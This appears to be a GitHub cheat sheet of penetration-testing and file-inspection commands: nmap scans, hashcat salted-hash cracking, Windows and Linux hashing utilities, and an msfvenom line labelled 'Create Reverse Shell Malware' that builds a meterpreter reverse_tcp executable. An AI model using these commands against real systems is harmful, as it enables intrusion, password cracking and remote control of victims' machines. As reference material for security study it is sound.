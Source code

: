 # 🔫Quick Reference Commands

## 🛡️ Offensive Security Commands
### Nmap default port scan
```bash
nmap -p- -O -v -sV <IP ADDRESS>
```
-- Default mass port scan with OS and Service identification 

### Nmap Aggressive port scan
```bash
nmap -A -v <IP ADDRESS>
```
-- Aggressive Port Scan

### Retrieve a file from an FTP server
```bash
mget *
```
-- Full all files from a directory from an FTP server

### Crack a Password with Hashcat 
```bash
hashcat -O -a 0 -m <HASH Type> <FILE HASH>:<SALT>
```
-- This command runs Hashcat in optimized mode (`-O`) to crack a hash (`<FILE HASH>`) that uses a salt (`<SALT>`), using a dictionary attack (`-a 0`) against a specific hash type 

### Create Reverse Shell Malware
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL HOST> LPORT=4444 -f exe > shell.exe
```
-- This command will utilise the MSF venom package of the Metasploit framework and generate a revers shell listening on port 4444

### Host a Python Webserver
```bash
python3 -m http.server 8000
``` 
-- This command will host a minimised webserver on port 8000 locatable at the local IP of the endpoint 

### Create a Network Share
```bash
net share <NAME OF SHARE>=<PATH TO DIRECTORY OF SHARE>
```
-- This command will create a sharable drive on the system that allows other endpoints on the network to access

## 📝File Information

### Retrieve basic file information
```bash
file <FILE NAME>
```
-- This will provide a high level overview of a given file specifying file type and offset

### Provide a hexdump of a file
```bash
xxd <FILE NAME>
```
-- This will provide a hexdump of a given file

## \# File Hashing
### Retrieve a file hash (linux)
```bash
<FILE HASH TYPE>sum <FILE NAME>
```

### Retrieve a file hash (Powershell)
> Default is SHA256 e.g. no provided `-alg` statement
```bash
get-filehash <FILE NAME> -alg <FILE HASH TYPE>
```

### Retrieve a file hash (Win)
```bash
certutil -hashfile <FILE NAME> <FILEHASHTYPE>
```

## Other

### Get Architecture Information
```bash
wmic os get osarchitecture
```
-- This command will identify what architecture the system is running (e.g. 32-bit/64-bit)